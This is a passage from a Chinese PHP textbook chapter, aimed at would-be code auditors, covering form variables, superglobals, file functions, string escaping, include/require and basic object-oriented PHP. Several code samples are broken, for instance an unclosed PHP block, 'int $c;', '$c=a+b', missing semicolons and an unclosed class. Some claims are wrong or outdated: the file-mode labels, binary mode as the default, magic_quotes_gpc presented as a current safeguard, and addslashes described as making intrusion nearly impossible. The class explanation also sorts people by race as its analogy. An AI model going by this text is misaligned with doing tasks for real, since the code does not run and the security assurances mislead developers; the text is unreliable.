正如大家猜的那样，使用 `echo` 语句具有一个非常简单的结果。它将引号内的字符串回显到浏览器中。在图 9-3 中可以看见该语句的结果，也就是“这是 PHP 输出的信息哦！”文本出现在浏览器窗口中。需要注意的是，在 `echo` 语句的结束处出现一个分号。在 PHP 中，分号是用来分隔语句的，就像英语中的逗号用来分隔句子一样。如果以前学过了 C 或 Java 的话，那对这种分号的使用应该比较习惯了。

间隔字符，例如换行（回车）、空格和 Tab（制表符），都可以被认为是空格。在前面学习 HTML 的时候就已经告诉了大家，浏览器将会忽略 HTML 的空格字符。PHP 引擎同样会忽略这些空格字符。

注释其实相当于代码的解释和说明。在前面我们也已经多次用到了注释，在代码分析中，解释是非常重要的。在 PHP 中如果是多行解释，那么应该以 `/*` 为开始，`*/` 为结束；如果是单行注释那么可以使用 `//` 和 `#` 两种注释符，`//` 在前面已经多次使用了，大家应该非常熟悉了。

#### 9.1.3 访问表单变量

前面我们使用表单的目的就是为了收集客户的订单。在 PHP 中，获得客户输入的具体数据非常简单，但是具体的方法还依赖于所使用的 PHP 版本，以及 php.ini 文件的设置。

##### （1）表单变量

在 PHP 脚本中，可以以 PHP 变量的形式访问每一个表单域，其中 PHP 变量名称必须与表单域的名称一致。大家可以很容易地识别 PHP 的变量名称，因为它们都是以 `$` 符号开始的。

根据 PHP 版本和设置的不同，通过变量，可以有三种方法来访问表单数据。这三种方法分别为简短风格、中等风格和冗长风格。在任何情况下，一个页面上提交给 PHP 脚本的每一个表单域在 PHP 脚本中都是可以使用的。比如你可以用以下的方法访问表单域 `display` 中的内容：

```php
$display                    // 简短风格
$_POST['display']           // 中等风格
$HTTP_POST_VARS['display']  // 冗长风格
```

简短风格（`$display`）使用非常方便，但是需要将 `register_globals` 配置选项设置为 `on`。在默认的情况下，该选项的默认设定值与 PHP 的版本相关。在 4.2.0 版本以后的所有版本中，这个配置默认值为 `off`。中等风格（`$_POST['display']`）是现在用得最多的，是中等风格来引用表单变量，但是它支持 4.1.0 以上版本。变量就放在中括号（`[]`）中并用引号引起来，我们称之为数组。冗长风格（`$HTTP_POST_VARS['display']`）是最详细的，但是如今已过时。

当使用简短风格时，脚本中的变量名称应该与 HTML 表单中的表单域名称相同。如果使用这种风格，就可以使用类似于 `$display` 的变量，表单中的 `display` 域将在表单处理脚本中创建 `$display` 变量。对变量如此方便的访问是非常受欢迎的，但是为什么现在 PHP 开发小组将该选项设置为 `off` 呢？这是因为这种方法可能会使读者遇到破坏脚本安全性的问题。由于表单变量会自动转换成全局变量，因此读者所创建的变量与直接来自用户的不可信任变量之间没有明显区别，所以会出现一些安全问题。

中等风格涉及了 `$_POST`、`$_GET` 或 `$_REQUEST` 这三种数组。`$_POST` 或 `$_GET` 都可以保存表单变量的细节，使用哪一种取决于提交表单时所使用的方法是 POST 还是 GET。此外，通过 POST 或 GET 方法提交的所有数据都可以通过 `$_REQUEST` 来获得。

如果表单是通过 POST 方法提交的，`display` 文本输入框中的数据将保存在 `$_POST['display']` 中。如果表单是通过 GET 方法提交的，数据将保存在 `$_GET['display']` 中。在任何一种情况下，数据都可以通过 `$_REQUEST['display']` 来获得。

`$_POST`、`$_GET` 和 `$_REQUEST` 这三个数组被称为超级全局变量。在后面给大家介绍变量的作用域时，会详细介绍超级全局变量。

可以使用赋值操作符将一个变量值复制给另一个变量，在 PHP 中，赋值操作符是等于号（`=`）。如下代码创建一个名为 `$domen` 的新变量，并且将 `$_POST['display']` 的内容复制给这个新变量：`$domen = $_POST['display'];`。

学习了上面的知识后，我们就可以对 9-1.php 进行改进了。我们可以利用表单变量来访问表单中的数据，通过 `$_POST` 数组就可以获得客户端中输入的数据，下面就是利用 `$_POST` 来获得客户端中输入的数据，而且大家可以看到服务端的变量和客户端表单中的变量是一样的，只是多一个 `$` 符号，代码如下：

```php
<?php
    // 获得客户端表单中的数据
    $display = $_POST['display'];      // 获得显示器的值
    $mainframe = $_POST['mainframe'];  // 获得主机的值
    $keyboard = $_POST['keyboard'];    // 获得键盘的值
```

这段代码将创建三个新变量：`$display`、`$mainframe` 和 `$keyboard`，并且通过 POST 方法从表单中传递过来的数据分别赋值给这三个变量。我们还可以把获得的数据输出，用以下代码就可以完成这个功能了：

```php
echo '<p><h1>下面就是客户端输入的数据</h1></p>';
echo $display.'台显示器<br>';
echo $mainframe.'台主机<br>';
echo $keyboard.'个键盘<br>';
```

改进后的 9-1.php 的完整代码如下所示：

```html
<html>
<head>
<title>表单处理文件</title>
</head>
<body>
<?php
$display = $_POST['display'];
$mainframe = $_POST['mainframe'];
$keyboard = $_POST['keyboard'];
echo '<p><h1>下面就是客户端输入的数据</h1></p>';
echo $display.'台显示器<br>';
echo $mainframe.'台主机<br>';
echo $keyboard.'个键盘<br>';
?>
</body>
</html>


```

我打开客户端文件后，在里面分别输入 3、2、1 之后，点击“提交”按钮后，就得到了如图 9-4 所示的结果了。
> 图 9-4 获得客户端输入并在浏览器输出其输入的数据

##### （2）字符串连接

在上面的例子中，我们使用了 `echo` 语句来输出我们输入的每一个表单域的值，而这些值是跟随在一段说明性文本之后的。如果仔细查看 `echo` 语句，大家会发现在变量名称和后面的文本之间存在一个点号（`.`），例如：`echo $display.' 台显示器<br>';`。

这个点号就是字符串的连接符，它可以将几段文本连接成一个字符串。通常，使用 `echo` 命令向浏览器发送输出时，将使用这个连接符。这样可以避免编写多个 `echo` 命令。

对于任何非数组变量，也可以将变量写入到一个由双引号引用起来的字符串中，如 `echo $display.' 台显示器<br>';`，还可以写成 `echo "$display 台显示器<br>";`。它们的功能是一样的。在双引号中，变量名称将被变量值所替代；而在单引号中，变量名称或者任何其他的文本都会不经修改而发送给客户端浏览器。

#### 9.1.4 变量

标识符是变量的名称，当然函数和类的名称也是属于标识符。PHP 的特性之一就是它不要求在使用变量之前声明变量，当你第一次给一个变量赋值时，你才真正创建了这个变量。变量都具有类型，叫作变量类型，它是指保存在该变量中的数据类型。PHP 支持 Integer（整数）、Float（浮点数）、String（字符串）、Boolean（布尔值）、Array（数组）及 Object（对象）等数据类型。

如果是一个变量，那么它的值我们是可以改变的。而如果声明了一个常量，那么它的值一旦被设定后，在脚本的其他地方就不能更改了。我们可以使用 `define` 函数定义常量，例如：`define('DISPLAY',500);`。创建了变量之后我们可以这样输出：`echo DISPLAY`。为了区别变量和常量的不同，一个重要的特点是引用一个常量的时候，它前面并没有 `$` 符号，还有就是常量名都是由大写字母组成。

##### （1）变量的作用域

作用域是指在一个脚本中某个变量在哪些地方才可以使用或可见。PHP 具有六项基本的作用域：

- 内置超级全局变量可以在脚本的任何地方使用和可见。
- 常量一旦被声明，将可以在全局可见；也就是说，它们可以在函数内外使用。
- 在一个脚本中声明的全局变量在整个脚本中是可见的，但不是在函数内部。
- 函数内部使用的变量声明为全局变量时，其名称要与全局变量名称一致。
- 在函数内部创建并声明为静态的变量无法在函数外部可见，但是可以在函数的多次执行过程中保持该值。
- 在函数内部创建的变量对函数来说是本地变量，而且当函数终止时，该变量就不存在了。

在 PHP 4.1 以后的版本中，`$_POST` 和 `$_GET` 数组以及一些其他特殊变量都具有各自的作用域规则。这些被称为超级全局变量，它们可以在任何地方使用和可见，包括内部和外部函数。超级全局变量的完整列表如下所示：

- `$GLOBALS`，所有全局函数变量数组（就像 `global` 关键字，这将允许在一个函数内部访问全局变量——例如，以 `$GLOBALS['myvariable']` 的形式。）
- `$_SERVER`，服务器环境变量数组
- `$_GET`，通过 GET 方法传递给该脚本的变量数组
- `$_POST`，通过 POST 方法传递给该脚本的变量数组
- `$_COOKIE`，cookie 变量数组
- `$_FILES`，与文件上传相关的变量数组
- `$_ENV`，环境变量数组
- `$_REQUEST`，所有用户输入的变量数组，包括 `$_GET`、`$_POST` 和 `$_COOKIE` 所包含的输入内容
- `$_SESSION`，会话变量数组

### 9.2 文件

在上一节中我给大家演示了一个订单的例子。对于商家来说，用户提交了订单之后，就应该按照订单的数据进行送货了。而订单中的数据是肯定要被存储起来的，而且这个数据是非常重要的。

在 PHP 中，存储数据有两种基本方法：保存到普通文件，或者保存到数据库中。普通文件可以具有多种格式，但是，通常所指的普通文件是简单的文本文件。而本节的重点就是给大家讲解如何将数据存储到文件中，这部分大家一定要掌握，因为它和我们的黑客技术有紧密的联系。要将数据存储在文件中就必然涉及文件的处理。

#### 9.2.1 文件处理

将数据写入一个文件，有三步操作：

1. 打开这个文件。如果文件不存在，需要先创建它。
2. 将数据写入这个文件。
3. 关闭这个文件。

同样，从一个文件中读出数据，也有三步操作：

1. 打开这个文件，如果这个文件不能打开（例如文件不存在），就应该意识到这一点并且正确地退出。
2. 从文件中读出数据。
3. 关闭这个文件。

当希望从一个文件中读出数据时，可以选择一次从文件中读取多少数据，这些在后面都会给大家讲解。

#### 9.2.2 打开文件

要在 PHP 中打开一个文件，可以使用 `fopen()` 函数。当打开一个文件的时候，还需要确定如何使用它，也就是文件模式。

##### （1）文件模式

服务器上的操作系统必须知道要对打开的文件进行什么操作。操作系统还要了解在打开这个文件后，这个文件是否还允许其他的脚本打开，它还需要了解当前使用者是否具有这样操作文件的权限。从本质上来说，文件模式可以告诉操作系统一种机制，这种机制可以决定如何处理来自其他人或脚本的访问请求，以及一种用来检查你是否有权访问这个特定文件的方法。当打开一个文件的时候，有三种选择：

1. 打开文件为了只读、只写或者读和写。
2. 如果要写一个文件，你可以希望覆盖所有已有的文件内容，或者仅仅将数据追加到文件的末尾。如果该文件已经存在，也可以终止程序的执行而不是覆盖该文件。
3. 如果希望在一个区分了二进制方式和纯文本方式的系统上写一个文件，还必须执行采用 `b` 的方式。

函数 `fopen()` 支持以上三种方式的组合。

##### （2）使用 fopen() 打开文件

假设要将数据写入 `php.txt` 文件中，可以使用如下所示的语句打开这个文件：

```php
$fp = fopen("$DOCUMENT_ROOT/../php/php.txt", "w");
```

调用 `fopen()` 的时候，可以传递 2 个、3 个或 4 个参数。通常我们使用 2 个就够了，如上面的代码所示。

第一个参数是要打开的文件，如上面的代码所示，我们可以指定该文件的路径。在这里，`php.txt` 文件保存在 `php` 目录中。我们使用了 PHP 内置变量 `$_SERVER['DOCUMENT_ROOT']`，不过这里这个变量有点长，所以我们用 `$DOCUMENT_ROOT` 来代替它，不过要记得在脚本的开始处加上：`$DOCUMENT_ROOT = $_SERVER['DOCUMENT_ROOT']` 这条代码。这个变量指向了 Web 服务器的根目录，而“..”表示文档根目录的父目录。

第二个参数是文件模式，它是一个字符串，指定了对文件进行的操作。在这个例子中，我们将“w”传给了 `fopen()`——这就意味着文件要以写的方式打开。表 9-1 给出了所有的文件模式和意义。

| 模式 | 模式名称 | 意义 |
|---|---|---|
| r | 只读 | 读模式——打开文件，从文件头开始读 |
| r+ | 只读 | 读写模式——打开文件，从文件头开始读写 |
| w | 只写 | 写模式——打开文件，从文件头开始写。如果该文件已经存在，将删除所有文件已有的内容。如果该文件不存在，函数将创建这个文件 |
| w+ | 只写 | 写模式——打开文件，从文件头开始读写。如果该文件已经存在，将删除所有文件已有的内容。如果该文件不存在，函数将创建这个文件 |
| x | 谨慎写 | 写模式——打开文件，从文件头开始写。如果文件已经存在，该文件将不会被打开，`fopen()` 函数将返回 `false`，而且 PHP 将产生一个警告 |
| x+ | 谨慎写 | 读/写模式——打开文件，从文件头开始写。如果文件已经存在，该文件将不会被打开，`fopen()` 函数将返回 `false`，而且 PHP 将产生一个警告 |
| a | 追加 | 追加模式——打开文件，如果该文件已有内容，将从文件末尾开始追加（写）；如果该文件不存在，函数将创建这个文件 |
| a+ | 追加 | 追加模式——打开文件，如果该文件已有内容，将从文件末尾开始追加（写）或者读；如果该文件不存在，函数将创建这个文件 |
| b | 二进制 | 二进制模式——用于与其他模式进行连接。如果文件系统能够区分二进制文件和文本文件，那么就可以使用它。Windows 系统可以区分；而 Unix 不区分。使用这个选项可以获得最大的移植性。它是默认的模式 |

表 9-1 `fopen()` 函数的文件模式总结

在我们实际的例子和系统中所使用的文件模式取决于如何使用这个系统，在我们分析代码的时候也要特别注意这里，因为这里也是安全问题出现比较多的地方。如果 `fopen()` 函数调用失败，函数将返回 `false`。可以以一种对于用户友好的方式来处理这个错误，在 `fopen` 函数前面加上一个 `@` 符号就可以告诉 PHP 抑制所有由该函数调用所产生的错误，示例代码如下：

```php
$fp = @fopen("$DOCUMENT_ROOT/../php/php.txt", 'a');
```

#### 9.2.3 写文件

在 PHP 中写文件比较简单，可以使用 `fwrite()` 或者 `fputs()`。`fputs()` 是 `fwrite()` 的别名函数。我们可以用这样的方式来调用 `fwrite()`：`fwrite($fp,$outputstring);`。这个函数告诉 PHP 将保存在变量 `$outputstring` 中的字符串写入到 `$fp` 指向的文件中。

目前，`fwrite()` 函数有了一个替换它的函数，是 `file_put_contents()`，函数的原型如下所示：

```php
int file_put_contents(string filename,
                      string data
                      [, int flags
                      [, resource context]])
```

这个函数可以在不需要调用 `fopen()` 函数打开要写的文件以前，将包含在 `data` 中的字符串写入到 `filename` 所指定的文件中。这个函数的后两个参数是可选的，一般用前面两个就可以了。这个函数是在 PHP 5.0 中新引入的。

实际上，`fwrite()` 的参数有三个，但是第三个参数是可选的。`fwrite()` 的原型如下所示：

```php
int fwrite(resource handle, string string [, int length])
```

第三个参数 `length` 是写入的最大字符数。如果给出了这个参数，`fwrite()` 将向 `handle` 指向的文件写入字符串，一直写到字符串末尾，或者已经写入了 `length` 字节，满足这两个条件之一就停止写入。`handle` 参数就是前面我们已经打开了的文件的那个变量。通过 PHP 的内置函数 `strlen()` 就可以获得该字符串的长度了，如下所示：

```php
fwrite($fp,$outputstring,strlen($outputstring));
```

当使用完了文件后，应当将它关闭，我们调用 `fclose()` 函数就可以关闭文件了，调用方式为：`fclose($fp);` 如果该文件成功关闭了，函数将返回一个 `true` 值。反之，该函数就返回 `false`。

#### 9.2.4 读文件

下面给大家讲一下怎么读文件。我们可以使用只读模式打开文件，仍然是使用 `fopen()` 函数打开文件。在下面的例子中，以只读方式打开这个文件，所以使用了 “rb” 文件模式：

```php
$fp = fopen("$DOCUMENT_ROOT/../php/php.txt", 'rb');
```

我们还可以每次读取文件的一行数据，可以使用的函数有：`fgets()` 和 `fgetss()`。使用 `fgets()` 来读取文件比较简单，比如我们可以这样使用这个函数：`$order = fgets($fp,101);`。它的第一个参数就是打开了的文件，而第二个参数就是可以读取一行的最大容量。需要注意的是读取的最大长度为指定的长度减去 1B，所以这里可以读取一行的最大长度为 100B。当使用这个函数之后，它将不断地读入数据，直至读到一个换行字符（`\n`）、或者文件结束符 EOF，或者是从文件中读取了 100B 就会结束读取。

`fgetss()` 函数是 `fgets()` 的一个变体，它的原型如下所示：

```php
fgetss(resource fp, int length, string [allowable_tags]);
```

这个函数功能和 `fgets()` 是一样的，而且前面两个参数和 `fgets()` 是一样的。但是它可以过滤字符串中包含的 PHP 和 HTML 标记。如果要过滤任何特殊的标记，可以将它们包含在 `allowable_tags` 字符串中。如果要从安全的角度考虑，那就可以使用这个函数。

除了每次读取文件的一行外，还可以一次读取整个文件。PHP 提供了四种不同的方式来读取整个文件。

第一种方式是 `readfile()`，调用 `readfile()` 这个函数打开这个文件，并且将文件内容输出到浏览器中。可以这样来读取整个文件的内容：`readfile("$DOCUMENT_ROOT/../php/php.txt");`。使用这个函数的时候，参数就是文件的路径。

第二种方式是 `fpassthru()`。要使用这个函数，必须先使用 `fopen()` 打开文件，然后将文件指针作为参数传递给 `fpassthru()`。这样就可以把文件的内容发送到浏览器中了。可以使用如下的代码代替上面的代码：

```php
$fp = fopen("$DOCUMENT_ROOT/../php/php.txt", 'rb');
fpassthru($fp);
```

如果读操作成功，`fpassthru()` 函数将返回 `true`，否则返回 `false`。

第三种方式是 `file()`，这个函数的使用方法和 `readfile()` 是一样的，不过这个函数不仅可以将文件内容发送到浏览器中，还可以将结果发送到一个数组中，可以用以下的方式调用它：`$filearray = file("$DOCUMENT_ROOT/../php/php.txt");` 这行代码将 `php.txt` 文件中的所有内容保存在数组 `$filearray` 中。文件中的每一行都将作为一个元素保存在这个数组中。

最后一种方式是 `file_get_contents()` 函数，这个函数的使用方法也和 `readfile()` 一样，但是这个函数将以字符串的形式返回文件内容，而不是将文件内容回显到浏览器中。我们还可以用 `fgetc()` 函数来读取文件中的一个字符，使用方法非常简单，为 `fgetc($fp)`，参数就是已经打开了的文件。

### 9.3 字符串操作

通过前面的学习，大家已经知道了漏洞出现的最主要原因是没有对用户输入的字符串进行相应的处理。所以对字符串的处理是防止出现安全问题的一个重要方法，而本节就给大家介绍在 PHP 环境下，对字符串处理的一些常见的方法。通过学习这些方法，大家在后面的代码分析中会明白漏洞出现的原因。所以这一节尤为重要。

#### 9.3.1 字符串的格式化

整理字符串的第一步就是要清理字符串中多余的空格。虽然这一步不是必须的，但是如果要将字符串存入一个文件或数据库中，就显得非常重要了。目前绝大部分 PHP 系统都会过滤字符串中的空格。和 ASP 中一样，PHP 也是使用 `trim()` 函数来整理用户输入数据中的空格，如下所示：`$name=trim($name);`

`trim()` 函数可以除去字符串开始位置和结束位置的空格，并将结果字符串返回。默认情况下，除去的字符是换行符和回车符（`\n` 和 `\r`）、水平和垂直制表符（`\t` 和 `\x0B`）、字符串结束符（`\0`）和空格。

对于输入的字符串来说，某些字符肯定是有效的。但是对于我们黑客来说，就是要往里面输入一些具有特殊功能的字符。但是 PHP 为了防止用户输入的数据具有某个功能，提供了转义字符串函数。这些转义字符串函数将字符串转义，就是在它们前面加上一个反斜杠。例如，如 `"`（双引号）就变成了 `\"`（反斜杠双引号）；`\`（反斜杠）就变成了 `\\`（反斜杠反斜杠）。这个规则对所有的特殊字符都通用，所以如果在字符串中存在 `\` 字符，就需要用 `\\` 进行替换，而实现这个功能的函数就是 `addslashes()`，它的使用方法如：`$name=addslashes($name);` 和许多字符串函数一样，`addslashes()` 函数需要一个字符串作为输入参数，经过处理，将返回一个重新格式化后的字符串。也正是因为有了这个函数的出现，PHP 的安全性得到了很大的提高，如果程序中使用了这个函数对用户输入的字符串进行处理了，那么我们几乎是不可能进行入侵了，这个函数可谓是黑客的天敌啊！而还有一个函数 `stripslashes()` 的功能就是去掉这些斜杠，功能和 `addslashes()` 是相反的。

而在 `php.ini` 中还有一个叫做 `magic_quotes_gpc` 配置指令。如果它启用了的话，也就是说 `magic_quotes_gpc=true` 的话，那么它就会实现 `addslashes()` 和 `stripslashes()` 这两个函数的功能。如今，在 PHP 的新版本中的默认情况下，该指令是启用的，这也使得新版的 PHP 安全性得到了很大的提高。gpc 表示 GET、POST 和 Cookie，这就意味着来自这些方法和方式的变量将自动包括在引号内。使用 `magic_quotes_gpc()` 函数可以检查系统上的指令是否已经启用。

#### 9.3.2 字符串的匹配与替换

匹配和替换也是和安全紧密相关的。通常为了在一个字符串中查找另一个字符串，最为常用的函数是 `strstr()`，它可以用于在一个较长的字符串中查找匹配的字符串或字符。`strstr()` 函数的原型如下所示：`string strstr(string haystack, string needle);` `haystack` 为一个字符串，`needle` 也是一个字符串，但是函数的功能就是要在 `haystack` 中查找 `needle` 字符串出现的位置。必须向函数传递一个 `haystack` 参数和一个要查找的 `needle` 参数。如果找到了 `needle` 的一个精确匹配，函数会从 `needle` 前面返回 `haystack`，否则返回值为 `false`。如果存在不止一个 `needle`，返回字符串从出现第一个 `needle` 的位置开始。

我们知道替换函数在防止注入、跨站攻击上有着非常重要的地位，在 PHP 中也同样提供了这样的函数。进行替换操作最常用的字符串函数是 `str_replace()`，它的函数原型如下所示：

```php
Mixed str_replace(mixed needle, mixed new_needle, mixed haystack [, int &count]);
```

这个函数用 `new_needle` 替换所有 `haystack` 中的 `needle`，并且返回 `haystack` 替换后的结果。第四个参数 `count` 为可选，它包含了要执行的替换操作次数。

### 9.4 代码重用

在我们的软件开发过程中，会经常用到一些公共的代码。而为了省略多次编写那些多次使用的代码，提出了一种代码重用的理论。也就是说把一些公共的代码放在一个地方，而要用的时候就引用它。在 ASP 中我已经给大家介绍的 `include()` 就是完成代码重用的函数，同样 PHP 也对代码重用方面做得非常好，本节重点就是讲解那些代码重用的函数。在第二章中，花了大量的篇幅给大家介绍文件包含漏洞，而这个漏洞出现的原因就是在引用的时候不当而造成的。所以本节是文件包含漏洞的基础知识，只有掌握了本节的知识才能对文件包含漏洞有一个全面的理解。大家听了一定很心动吧，那就 follow me 啊！

PHP 提供了两个非常简单却很有用的语句，它们允许重新使用任何类型的代码。使用一条 `require()` 或 `include()` 语句，可以将一个文件载入到 PHP 脚本中，这就实现了我们代码重用的结果了。通常，这个文件可以包含任何希望在一个脚本中引入的内容，其中包括 PHP 语句、文本、HTML 标记、PHP 函数或 PHP 类。

下面我们来演示一下 `require()` 的功能，我写了一些代码，把它命名为 `require.php`，代码如下所示：

```php
<?php
    echo '<h1>这是通过 require 函数而输出的内容</h1>';
?>
```

而我还写了一些代码，把它命名为 `main.php`，代码如下所示：

```php
<?php
    echo '<h1>这是通过 echo 命令输出的内容</h1><br>';
    require('require.php');
    echo '<h1>这是通过 main.php 文件输出的内容</h1><br>';
?>
```

如果我们运行 `require.php` 文件后输出“这是通过 echo 命令输出的内容”，大家应该不会感到奇怪。而当我们运行 `main.php` 时，输出的结果如图 9-5 所示。

> 图 9-5 通过 require() 函数而调用的输出

当我们需要在一个文件中引用其他文件的内容的时候，我们就可以使用 `require()` 函数来调用。上面的例子中，我们使用的文件是 `require.php`，当运行该脚本的时候，`require()` 语句：`require('require.php')`，将被请求的文件内容代替，然后再执行脚本。这就意味着，当载入 `main.php` 文件时，它会像如下所示的代码那样执行：

```php
<?php
    echo '<h1>这是通过 echo 命令输出的内容</h1><br>';
    echo '<h1>这是通过 require 函数而输出的内容</h1>';
    echo '<h1>这是通过 main.php 文件输出的内容</h1><br>';
?>
```

因为 `require.php` 文件是公共代码，所以可以被多个文件所引用。

`include()` 语句和 `require()` 语句的功能几乎是等价的。两者之间的差异在于，当这两个语句调用失败后，`require()` 语句将给出一个致命的错误，而 `include()` 只是给出一个警告。

`include()` 和 `require()` 都有变体函数，分别是 `include_once()` 和 `require_once()`。

通过字面意思大家也可以猜到它们的用途是确保一个被包含的文件只能够被使用一次，而使用 `include()` 和 `require()` 函数则可以确保一个被包含的文件可以被多次使用，这就是它们的区别。

函数在前面已经提到了非常多了，它们是用于分隔那些能够完成独立而明确任务的代码，而且允许在每次需要完成同样任务的时候重复使用代码。所以函数也是属于代码重用的一个方面。

在 PHP 中，函数的调用是不区分大小写的。一个函数声明将创建或者声明一个新函数，声明是以关键字 `function` 开始的，接着给出函数名称和必要的参数，然后再给出每次调用这个函数时要执行的代码。例如，下面是一个常见的函数声明：

```php
function my_function()
{
    echo '这里是函数要执行的代码'
}
```

这个函数声明是以 `function` 开始的，函数名为 `my_function()`。我们可以使用如下所示的命令调用这个函数：`my_function()`。在一个函数中，花括号包括了完成所要求任务的代码。在花括号中，可以包含任何在 PHP 脚本的其他地方都合法的代码，其中包括函数调用、新的变量或函数声明、`include()` 和 `require()` 语句、类声明及 HTML 代码。还有在函数名的小括号里可以包含一些参数。下面我举个例子，说明 `require()` 语句是如何和函数进行相互调用的。

我在文件 `function.php` 中编写了一个函数，代码如下：

```html
<html>
<head><title>function file</title></head>
<body>
<?php
function add($a,$b)
{
int $c;
$c=a+b;
return $c;
}
</body>
</html>
```

而另外一个文件 `add.php` 的代码如下所示：

```html
<html>
<head><title>add file</title></head>
<body>
<form>
<tr>
<td><h1>请输入 a</h1></td>
<td align="center"><input type="text" name="a" size="5" maxlength="10"></td><br>
</tr>
<tr>
<td><h1>请输入 b</h1></td>
<td align="center"><input type="text" name="b" size="5" maxlength="10"></td><br>
</tr>
<tr>
<input type="submit" value="提交">
</tr>
</form>
<?php
require('function.php')
$a=$_POST['a'];
$b=$_POST['b'];
add($a,$b);
echo '$c 的值是'.$a;
?>
</body>
</html>
```

在 `add.php` 中，我们先通过表单获得用户输入的数据，然后调用 `function.php` 中的 `add` 函数，而这个调用的桥梁就是通过 `require()` 语句来完成的，通过 `require()` 语句把 `function.php` 中的代码插入到 `add.php` 中，最后再调用它。这也是在编程时最为常用的调用方法，这里大家一定要注意，因为我们分析代码的时候就是靠它来顺藤摸瓜的。图 9-6 和 9-7 就是上面代码运行的结果。

图 9-6 输入要相加的数

图 9-7 调用函数后的相加结果

### 9.5 面向对象的 PHP 简介

面向对象（OOP）是目前软件开发的主流技术，目前的编程语言大部分都已经支持面向对象方法了，我们的 PHP 自然对面向对象有非常好的支持。相信在大家当中一定有人也听过这个名词，而当今的两大主流语言 C++ 和 JAVA 均是面向对象的编程语言。

在面向对象编程语言中，所有的东西都是对象，包括它自己也是一个对象。一个对象我们可以对其进行分类，同时它具有操作和属性等特性。对象的属性是与对象相关的特性或变量，对象的操作则是对象可以执行的、用来改变其自身或对外部产生影响的方法、行为或函数。而我们可以对对象进行分类，所以类是一些具有相同特性或属性以及相同操作组成的对象，同时类还是对象的实例化。

上面这样讲，如果没有接触过面向对象，肯定是理解起来有点困难，所以这里我举个例子来说明。假设我们要举例的对象是全世界的“人”。那么我们就可以对全世界的人的这个对象进行分类，比如我们分成“白种人”、“黑种人”、“黄种人”这三个类。而类是具有操作和属性的。比如“黄种人”这个类的人，他们都具有黄色皮肤这个特性，也就是有黄色皮肤这个属性，同时“黄种人”还可以完成跑步、吃饭等行为，也就是其操作。而且同一个对象中的不同类也会有一些相同的属性和操作，比如“白种人”、“黑种人”、“黄种人”这三个类的人都是具有两只手的特性，都具有会吃饭的操作等等。而我曾经正好是一个黄种人，具有黄种人的各种属性和操作。所以我是属于“黄种人”这个类，同时也是这个类中的一个对象。同时我也把黄种人这个类实例化了，因为我是一个例子啊。上面的解释可能有一点牵强，不过大家一定要知道，类是对对象的实例化，一个对象具有属性和操作。

#### 9.5.1 在 PHP 中创建类、属性和操作

前面已经给大家提到了 PHP 对面向对象有很好支持，所以下面就来具体给大家介绍一下 PHP 下的各种面向对象的知识。

当我们创建一个 PHP 类的时候，必须使用关键字“class”。一个最小的、最简单的类定义如下所示：

```php
class classname
{
}
```

为了使上面的类具有实用性，类需要添加一些操作和属性。通过在类的定义中使用关键词“var”来声明变量，可以创建属性。如下所示的代码创建了一个名为“classname”的类，它具有两个属性 `$attribute1` 和 `$attribute2`：

```php
class classname
{
    var $attribute1;
    var $attribute2;
}
```

通过在类中声明函数，我们可以创建类的操作。如下所示的代码创建了一个名为“classname”的类，该类中包含了一个进行加法操作的函数：

```php
class classname
{
```

```php
function add($a, $b)
{
    $c = $a + $b;
    return $c;
}
```

#### 9.5.2 类的实例化、使用及继承

我们声明了一个类之后，我们需要创建一个对象——一个特定的个体，即类的一个成员，并使用这个对象。这个过程我们就叫做创建一个实例或实例化类。我们可以使用关键字“new”来创建一个对象。创建一个对象很简单，比如前面我们已经创建了一个 `classname` 的类，那么该类的对象就应该这样创建：`$a = new classname()`。对象的名称就是该类的名称，不过后面还有一个小括号，括号里还可以有参数，也可以没有。

在一个类中，可以访问一个特殊的叫做指针的变量——`$this`。如果当前的类中有一个属性为 `$attribute`，则当在该类中通过一个操作访问这个变量时，可以使用 `$this->attribute` 来引用。下面的代码就是说明如何在一个类中访问属性：

```php
class classname
{
    var $attribute;
    function sdsd($a)
    {
        $this->attribute = $a;
        echo $this->attribute;
    }
}
```

我们还可以在类的外部访问类中的属性，比如下面的代码就是类的对象访问类中的属性：

```php
class classname
{
    var $attribute;
}
$a = new classname();
$a->attribute = 'value';
echo $a->attribute;
```

细心的朋友应该可以看出来，如果任何对象都可以随便访问类中的任何变量的话，那一定会出现很多安全问题。所以 PHP 中对类中引入了访问修饰符，即给某些属性、变量进行权限的设置。如果程序员在编写代码的时候没有注意这个问题，一定会发生漏洞，所以大家在分析代码的时候也要注意这些变量的访问权限，试一下是否可以越权访问。

目前的 PHP5 支持三种访问修饰符：

- `public`：它是默认选项，如果没有为一个属性或方法指定访问修饰符，比如我们前面的例子，那它将是 `public`。`public` 的属性和方法可以在类的内部和外部都进行访问。它被称为公有的。
- `private`：使用这个访问修饰符意味着被标记的属性和方法只能在类的内部进行访问，它被称为私有的。私有的属性和方法将不会被继承（继承稍后给大家讲解）。
- `protected`：使用这个访问修饰符的话，那么类中的属性和方法也将只能在类的内部进行访问。它被称为保护的。

下面我给大家演示如何在程序中使用访问修饰符，代码如下：

```php
class classname
{
    private $attribute;
    public function add($a, $b)
    {
        $c = $a + $b;
        return $c;
    }
}
$a = new classname();
$a->attribute = 'value';
echo $a->attribute;
```

在上面，每一个类成员都具有一个访问修饰符，说明它是公有的还是私有的。可以不添加 `public` 关键字，因为它是默认的访问修饰符。细心的朋友应该可以发现 `attribute` 前的 `var` 关键字被删除了，因为它被 `public` 给代替，所以这里可以不用写。爱动脑筋的朋友应该可以发现上面这个程序在运行的时候肯定会发生错误。还是 `attribute` 属性，因为在类中我们设置的是 `private` 访问修饰符，只能在类的内部使用，而我们在外面却引用了 `attribute` 这个属性，所以在运行的时候就会出现错误。分析代码的时候也是这样，要从细小的地方发现问题所在。

面向对象还有一个重要的特性就是继承，和我们现实生活差不多。例如，我们都继承了父母的一些特性等。假设有两个类，一个为 A 类，另一个为 B 类，而且 B 类继承了 A 类，那么 A 类就是 B 类的父类，自然 B 类就是 A 类的子类了。如果类是另一个类的子类，那么可以使用关键字 `extends` 来指明继承关系。下面就是 B 类继承了 A 类的例子，代码如下：

```php
class B extends A
{
    var $attribute2;
    function oper2()
    {
    }
}
```

而 A 类具有如下所示的声明：

```php
class A
{
    var $attribute1;
    function oper1()
    {
    }
}
```

按照上面两个类的声明，下面的访问都是正确的：

```php
$b = new B();
$b->oper1();
$b->attribute1 = 10;
$b->oper2();
$b->attribute2 = 10;
```

